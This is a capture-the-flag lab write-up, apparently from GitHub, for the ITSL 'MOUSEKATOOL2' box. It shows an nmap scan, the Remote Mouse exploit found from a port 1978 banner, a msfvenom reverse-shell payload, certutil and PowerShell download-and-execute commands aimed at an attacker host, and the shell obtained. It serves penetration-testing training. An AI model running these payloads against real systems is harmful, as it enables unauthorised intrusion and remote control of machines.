 # 0. Sources

|||
|---|---|
|[YouTube](https://www.youtube.com/watch?v=unDGYDe1ljw)|[Download](https://drive.google.com/file/d/1uTJDtFDX9WkhUt-HEuZ5iNS-3CmHMP0m/view)|

# 1. nmap scan

```console
┌──(root㉿kali)-[~]
└─$ nmap -p- -A 10.0.88.34
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-27 08:15 +08
Nmap scan report for 10.0.88.34
Host is up (0.0012s latency).
Not shown: 65515 closed tcp ports (conn-refused)
PORT      STATE SERVICE        VERSION
21/tcp    open  ftp            FileZilla ftpd 0.9.41 beta
| ftp-syst:
|_  SYST: UNIX emulated by FileZilla
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x 1 ftp ftp              0 Sep 14  2021 AccountPictures
| drwxr-xr-x 1 ftp ftp              0 Oct 01  2021 Desktop
| -r--r--r-- 1 ftp ftp            174 Jul 16  2016 desktop.ini
| drwxr-xr-x 1 ftp ftp              0 Sep 14  2021 Documents
| drwxr-xr-x 1 ftp ftp              0 Jul 16  2016 Downloads
| drwxr-xr-x 1 ftp ftp              0 Oct 01  2021 FTP
| drwxr-xr-x 1 ftp ftp              0 Jul 16  2016 Libraries
| drwxr-xr-x 1 ftp ftp              0 Jul 16  2016 Music
| drwxr-xr-x 1 ftp ftp              0 Jul 16  2016 Pictures
|_drwxr-xr-x 1 ftp ftp              0 Jul 16  2016 Videos
80/tcp    open  http           Apache httpd 2.4.17 ((Win32) OpenSSL/1.0.2d PHP/5.6.14)
| http-title: Welcome to XAMPP
|_Requested resource was http://10.0.88.34/dashboard/
|_http-server-header: Apache/2.4.17 (Win32) OpenSSL/1.0.2d PHP/5.6.14
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
443/tcp   open  ssl/http       Apache httpd 2.4.17 ((Win32) OpenSSL/1.0.2d PHP/5.6.14)
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.17 (Win32) OpenSSL/1.0.2d PHP/5.6.14
| http-title: Welcome to XAMPP
|_Requested resource was https://10.0.88.34/dashboard/
445/tcp   open  microsoft-ds   Windows 10 Pro 14393 microsoft-ds (workgroup: ITSL)
1978/tcp  open  unisql?
| fingerprint-strings:
|   DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, ms-sql-s:
|_    SIN 15win nop nop 300
1979/tcp  open  unisql-java?
1980/tcp  open  pearldoc-xact?
3306/tcp  open  mysql          MariaDB (unauthorized)
3389/tcp  open  ms-wbt-server  Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: MOUSEKATOOL2
|   NetBIOS_Domain_Name: MOUSEKATOOL2
|   NetBIOS_Computer_Name: MOUSEKATOOL2
|   DNS_Domain_Name: mousekatool2
|   DNS_Computer_Name: mousekatool2
|   Product_Version: 10.0.14393
|_  System_Time: 2022-11-27T00:17:50+00:00
| ssl-cert: Subject: commonName=mousekatool2
| Not valid before: 2022-11-26T15:13:31
|_Not valid after:  2023-05-28T15:13:31
|_ssl-date: 2022-11-27T00:18:18+00:00; 0s from scanner time.
5357/tcp  open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8021/tcp  open  ftp-proxy?
| fingerprint-strings:
|   NULL:
|     Content-Type: text/rude-rejection
|     Content-Length: 24
|     Access Denied, go away.
|     Content-Type: text/disconnect-notice
|     Content-Length: 67
|     Disconnected, goodbye.
|_    ClueCon! http://www.cluecon.com/
49664/tcp open  msrpc          Microsoft Windows RPC
49665/tcp open  msrpc          Microsoft Windows RPC
49666/tcp open  msrpc          Microsoft Windows RPC
49667/tcp open  msrpc          Microsoft Windows RPC
49668/tcp open  msrpc          Microsoft Windows RPC
49669/tcp open  msrpc          Microsoft Windows RPC
49683/tcp open  msrpc          Microsoft Windows RPC
⋮
```

# 2. Checking for exploits

At first look, it appears that `21/ftp`, `80/http` and `443/https` are easy targets.

However, enumerating the FTP didn't return any useful data, and there doesn't seem to be any exploits usable on the XAMPP stack.

All looks lost: it doesn't seem like there are any other exploits available, and the unknown ports 1978, 1979 and 1980 appear to point to unisql, unisql-java and peardoc-xact when you google for the port numbers.

☝️ **Important learning point from this box:**
- Be sure to check out the banner information (if any) returned from the scan
- Port 1978 returned a gibberish banner `SIN 15win nop nop 300`, which upon googling, leads you to the [Remote Mouse exploit](https://www.exploit-db.com/raw/46697)
- Another method is to google for `1978 site:www.exploit-db.com`, which will also return the Remote Mouse exploit as a result

The 46697.py expolits Remote Mouse to launch `calc.exe`; the line `SendString("calc.exe",ip)` can be modified to run other commands.

# 3. Getting a shell

Generate reverse shell executable and place in web server root:

(Apache2 is already running with DocumentRoot at `/var/www/html`)

```console
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/reverse.exe
```

Open another console window on Kali to listen for connections:

```console
┌──(root㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
```

Modify the exploit to download and run the payload

**Option 1:** using Command Prompt

```console
SendString("cmd /c "certutil.exe /urlcache /f /split http://kali.vx/reverse.exe && .\\reverse.exe"",ip)
```

**Option 2:** using PowerShell

```console
SendString("powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://kali.vx/reverse.exe','reverse.exe'); Start-Process reverse.exe",ip)
```

Run the exploit

```console
┌──(root㉿kali)-[~]
└─$ python2 46697.py 10.0.88.34
('SUCCESS! Process calc.exe has run on target', '10.0.88.34')
```

Verify that the reverse shell has hooked on from the listener console

```cmd
connect to [192.168.17.10] from (UNKNOWN) [10.0.88.34] 49881
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
mousekatool2\mickey

C:\Windows\system32>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ===============================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                                                 Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

Excellent, we now have shell on the target, and the user is member of `BUILTIN\Administrators`

# 4. Getting the proof

Since we know that the proof is a file on the user's desktop, let's get straight to it

```cmd
C:\Windows\system32>cd %USERPROFILE%
cd %USERPROFILE%

C:\Users\Mickey>dir /s *flag.txt*
dir /s *flag.txt*
 Volume in drive C has no label.
 Volume Serial Number is DA18-B95C

 Directory of C:\Users\Mickey\AppData\Roaming\Microsoft\Windows\Recent

10/01/2021  01:55 PM               554 flag.txt.lnk
               1 File(s)            554 bytes

 Directory of C:\Users\Mickey\Desktop

10/01/2021  01:56 PM               345 flag.txt.txt
               1 File(s)            345 bytes

     Total Files Listed:
               2 File(s)            899 bytes
               0 Dir(s)  40,675,540,992 bytes free

C:\Users\Mickey>type Desktop\flag.txt.txt
type Desktop\flag.txt.txt
What we have learned:
1) ALWAYS check ftp with anonymous
2)check every running ports, BANNERS, BANNERS can have good info!
3)Look for public exploits
4)Know how to read public exploits
5) If one way fails, try another way

CONGRATS ON ROOTING THE BOX

Try the next one from ITSL
https://www.youtube.com/channel/UCXPdZsu8g1nKerd-o5A75vA
```
